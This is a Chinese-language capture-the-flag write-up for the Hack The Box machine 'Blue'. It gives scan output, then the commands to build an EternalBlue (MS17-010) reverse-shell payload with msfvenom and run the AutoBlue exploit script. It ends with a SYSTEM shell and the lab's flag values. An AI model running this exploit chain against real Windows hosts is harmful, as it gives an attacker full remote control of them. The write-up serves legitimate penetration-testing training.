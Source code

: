 # HTB靶机 Blue WriteUp


&lt;!--more--&gt;

## Blue 简介

![图片](/resource/HTB靶机-Blue-WriteUp.assets/640-20230220175612205.png)

OS：Windows；			难度：Easy

## WriteUp

连接HTB靶场：`sudo openvpn  xxxx.ovpn`

测试靶机连通性：

```shell
 ┌──(xavier㉿xavier)-[~]
 └─$ ping -c 4 10.10.10.40
 PING 10.10.10.40 (10.10.10.40) 56(84) bytes of data.
 64 bytes from 10.10.10.40: icmp_seq=1 ttl=127 time=238 ms
 64 bytes from 10.10.10.40: icmp_seq=3 ttl=127 time=237 ms
 64 bytes from 10.10.10.40: icmp_seq=4 ttl=127 time=240 ms
 
 --- 10.10.10.40 ping statistics ---
 4 packets transmitted, 3 received, 25% packet loss, time 3035ms
 rtt min/avg/max/mdev = 237.404/238.524/240.313/1.277 ms
```

有点延迟和丢包，扫描探测结果可能不准确，需要复核。

## 0.SCAN

masscan 扫描全端口&#43; nmap 扫描详细端口信息

```shell
 ┌──(xavier㉿xavier)-[~]
 └─$ sudo masscan -e tun0 -p- --max-rate 500 10.10.10.40
 Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-03-21 05:48:42 GMT
 Initiating SYN Stealth Scan
 Scanning 1 hosts [65535 ports/host]
 Discovered open port 49156/tcp on 10.10.10.40
 Discovered open port 49152/tcp on 10.10.10.40
 Discovered open port 49154/tcp on 10.10.10.40
 Discovered open port 49155/tcp on 10.10.10.40
 Discovered open port 445/tcp on 10.10.10.40
 Discovered open port 49153/tcp on 10.10.10.40
 Discovered open port 49157/tcp on 10.10.10.40
 Discovered open port 135/tcp on 10.10.10.40
 Discovered open port 139/tcp on 10.10.10.40
 
 ┌──(xavier㉿xavier)-[~]
 └─$ sudo nmap -p135,139,445,49152-49157 -sSV 10.10.10.40 --script=default,vuln 
 Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-21 14:04 HKT
 Nmap scan report for 10.10.10.40
 Host is up (0.24s latency).
 
 PORT     STATE SERVICE     VERSION
 135/tcp   open msrpc       Microsoft Windows RPC
 139/tcp   open netbios-ssn Microsoft Windows netbios-ssn
 445/tcp   open microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
 49152/tcp open msrpc       Microsoft Windows RPC
 49153/tcp open msrpc       Microsoft Windows RPC
 49154/tcp open msrpc       Microsoft Windows RPC
 49155/tcp open msrpc       Microsoft Windows RPC
 49156/tcp open unknown
 49157/tcp open msrpc       Microsoft Windows RPC
 Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
 
 Host script results:
 | smb2-security-mode:
 |   2.1:
 |_   Message signing enabled but not required
 | smb-vuln-ms17-010:
 |   VULNERABLE:
 |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
 |     State: VULNERABLE
 |     IDs: CVE:CVE-2017-0143
 |     Risk factor: HIGH
 |       A critical remote code execution vulnerability exists in Microsoft SMBv1
 |       servers (ms17-010).
 |
 |     Disclosure date: 2017-03-14
 |     References:
 |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
 |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
 |_     https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
 |_clock-skew: mean: 4m02s, deviation: 6s, median: 3m58s
 |_smb-vuln-ms10-054: false
 | smb-security-mode:
 |   account_used: guest
 |   authentication_level: user
 |   challenge_response: supported
 |_ message_signing: disabled (dangerous, but default)
 | smb-os-discovery:
 |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
 |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
 |   Computer name: haris-PC
 |   NetBIOS computer name: HARIS-PC\x00
 |   Workgroup: WORKGROUP\x00
 |_ System time: 2022-03-21T06:09:59&#43;00:00
 | smb2-time:
 |   date: 2022-03-21T06:09:58
 |_ start_date: 2022-03-21T05:42:34
 |_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 Nmap done: 1 IP address (1 host up) scanned in 117.51 seconds
```

发现 存在 smb  ms17-010（CVE-2017-0143），操作系统为：Windows 7 Professional 7601 Service Pack 1 ，计算机名: haris-PC

非MSF

## 1. MS17-010 利用

不用msf去攻击

nmap 只有检测脚本，没有利用脚本，通过网络expdb、Github搜索利用工具。

最后找了这个：https://github.com/3ndG4me/AutoBlue-MS17-010

下载代码，并安装依赖，这里我使用了Pipenv创建了单独的环境。

```shell
 └─$ git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
 (HTB) ┌──(xavier㉿xavier)-[~/HTB/AutoBlue-MS17-010/
 └─$ pip install -r requirements.txt
```

制作利用代码，可以利用shellcode文件夹下的 shell_prep.sh 辅助生成。

这里直接使用msfvenom进行生成，并加入shellcode混合

```shell
 (HTB) ┌──(xavier㉿xavier)-[~/HTB/AutoBlue-MS17-010/
 └─$ nasm -f bin eternalblue_kshellcode_x64.asm -o evilKernel.bin
 
 (HTB) ┌──(xavier㉿xavier)-[~/HTB/AutoBlue-MS17-010/shellcode]
 └─$ msfvenom -p windows/x64/shell_reverse_tcp EXITFUNC=thread LHOST=10.10.14.2 LPORT=4444 -f raw -o evilReverse.bin
 [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
 [-] No arch selected, selecting arch: x64 from the payload
 No encoder specified, outputting raw payload
 Payload size: 460 bytes
 Saved as: evilReverse.bin
 
 (HTB) ┌──(xavier㉿xavier)-[~/HTB/AutoBlue-MS17-010/shellcode]
 └─$ cat evilKernel.bin evilReverse.bin &gt; evilPayload.bin
```

依据Github 的Readme 命令帮助，输入目标ip，payload 和Groom连接数，执行利用脚本：

```shell
python eternalblue_exploit7.py &lt;TARGET-IP&gt; &lt;PATH/TO/SHELLCODE/sc_all.bin&gt; &lt;Number of Groom Connections (optional)&gt;
 (HTB) ┌──(xavier㉿xavier)-[~/HTB/AutoBlue-MS17-010]
 └─$ python3 eternalblue_exploit7.py 10.10.10.40 shellcode/evilPayload.bin 2
 shellcode size: 1232
 numGroomConn: 2
 Target OS: Windows 7 Professional 7601 Service Pack 1
 SMB1 session setup allocate nonpaged pool success
 SMB1 session setup allocate nonpaged pool success
 good response status: INVALID_PARAMETER
 done
 
 (HTB) ┌──(xavier㉿xavier)-[~/HTB/AutoBlue-MS17-010]
 └─$ python3 eternalblue_exploit7.py 10.10.10.40 shellcode/evilPayload.bin 24
 shellcode size: 1232
 numGroomConn: 24
 Target OS: Windows 7 Professional 7601 Service Pack 1
 SMB1 session setup allocate nonpaged pool success
 SMB1 session setup allocate nonpaged pool success
 good response status: INVALID_PARAMETER
 done
 
```

这里 `&lt;Number of Groom Connections (optional)&gt;`虽然是可选项，但经过多次不成功后，我按照参考文献2进行设置，同样在多次尝试后，成功获得shell，且为System权限。

```shell
 ┌──(xavier㉿xavier)-[~]
 └─$ nc -nlvp 4444
 listening on [any] 4444 ...
 connect to [10.10.14.2] from (UNKNOWN) [10.10.10.40] 49159
 Microsoft Windows [Version 6.1.7601]
 Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
 
 C:\Windows\system32&gt;whoami
 whoami
 nt authority\system
 C:\Windows\system32&gt;cd C:\Users\haris\Desktop
 cd C:\Users\haris\Desktop
 
 C:\Users\haris\Desktop&gt;type user.txt
 type user.txt
 6349f910cd5b7ddae73521237f8e90c3
 
 C:\Users\haris\Desktop&gt;type C:\Users\Administrator\Desktop\root.txt
 type C:\Users\Administrator\Desktop\root.txt
 3515d002af86dbfff3ce6f9bbffe7ede
```

利用他人的工具，最后做出来了，但让我意识到对漏洞的一知半解，在攻击过程中会消耗大量的时间，甚至走上弯路。平时需要加强对漏洞的研究，了解漏洞的相关影响因素。



MSF: 略

## 他山之石

- Hack The Box - Blue (Without Metasploit)  

- - 用了superscan
  - 用了其他exp，python2脚本

- Hack The Box - Blue Walkthrough without Metasploit 

- - 使用了同一种方法，numGroomConn 需要尝试多次

- WriteUp: HackTheBox Blue

- - 使用了kali自带的searchsploit 去找利用脚本，并进行修改利用


---

> 作者: Xavier  
> URL: http://localhost:1313/posts/hackthebox-blue/  


